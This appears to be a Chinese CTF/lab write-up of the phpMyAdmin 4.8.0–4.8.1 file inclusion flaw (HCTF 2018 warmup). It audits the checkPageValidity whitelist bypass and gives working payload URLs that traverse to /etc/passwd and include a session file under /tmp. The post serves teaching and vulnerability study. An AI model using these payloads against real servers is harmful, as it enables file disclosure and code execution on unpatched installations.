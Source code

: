 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/xhds/archive/2004/01/13/12579041.html)

**目录**

*   [简介](#_label0)
*   [受影响版本](#_label1)
*   [代码审计](#_label2)
*   [漏洞利用方法](#_label3)

[回到顶部](#_labelTop)

简介
--

**环境复现：**https://gitee.com/xiaohua1998/hctf\_2018\_warmup

**考察知识点:** 文件包含漏洞 (phpmyadmin 4.8.1 任意文件包含)

**线上平台:** 榆林学院内可使用协会内部的网络安全实验平台

phpMyAdmin 是一套开源的、基于 Web 的 MySQL 数据库管理工具。其 index.php 中存在一处文件包含逻辑，

通过二次编码即可绕过检查，造成远程文件包含漏洞。

[回到顶部](#_labelTop)

受影响版本
-----

phpMyAdmin 4.8.0 和 4.8.1 受到影响。

[回到顶部](#_labelTop)

代码审计
----

通过审计 index.php 发现了文件包含 只要达到 if 里面的条件即可执行文件包含。

![](https://img2020.cnblogs.com/blog/967964/202003/967964-20200327062300737-1950736828.png)

! empty($\_REQUEST\['target'\])  //request 接受的 target 不能为空  
&& is\_string($\_REQUEST\['target'\]) //target 里面的值必须是字符串  
&& ! preg\_match('/^index/', $\_REQUEST\['target'\]) //target 里面的值不能以 index 为头  
&& ! in\_array($\_REQUEST\['target'\], $target\_blacklist)  //target 传进来的值不能是 $target\_backlist 里面的值 如 "import.php" 和 "export.php"  
&& Core::checkPageValidity($\_REQUEST\['target'\])  // 将值给 checkPageValidity() 函数 要返回 true 才能全整体为真

接下来继续追溯 checkPageValidity 函数 

[![](http://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

```
public static function checkPageValidity(&$page, array $whitelist = \[\]) {
　　　　//首先判断$whitelist不为空 则将$goto\_whitelist值赋值给$whitelist
        if (empty($whitelist)) {
            $whitelist = self::$goto\_whitelist;  //这里得追溯下 看看$got\_whitelist
        }
　　　　//判断传进来的值 要存在而且
        if (! isset($page) || !is\_string($page)) {
            return false;
        }
　　　　　//判断传进来的值是否在白名单内
        if (in\_array($page, $whitelist)) {
            return true;
        }

　　　　//截取传进来的？号
        $\_page = mb\_substr(
            $page,
            0,
            mb\_strpos($page . '?', '?')
        );
　　　　　　//判断$\_page是否输入$page
        if (in\_array($\_page, $whitelist)) {
            return true;
        }
　　　　　　
　　　　　　//给page解码
        $\_page = urldecode($page);
　　　　//截取？号部分
        $\_page = mb\_substr(
            $\_page,
            0,
            mb\_strpos($\_page . '?', '?')
        );
        if (in\_array($\_page, $whitelist)) {
            return true;
        }

        return false;
    }

```

[![](http://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

![](https://img2020.cnblogs.com/blog/967964/202003/967964-20200327064912161-536808034.png)

 得到上面的情况我们可以构造 payload:

```
http://192.168.52.129:8080/?target=tbl\_zoom\_select.php?/../../../../../../etc/passwd

```

[回到顶部](#_labelTop)

漏洞利用方法
------

![](https://img2020.cnblogs.com/blog/967964/202003/967964-20200327074909744-863905312.png)

![](https://img2020.cnblogs.com/blog/967964/202003/967964-20200327075028889-516364469.png)

包含 session 文件 payload

```
http://192.168.52.129:8080/?target=tbl\_zoom\_select.php?/../../../../../../tmp/sess\_1d4171b498cba40de617fbea8902d5f0

```

![](https://img2020.cnblogs.com/blog/967964/202003/967964-20200327075532358-1934078563.png)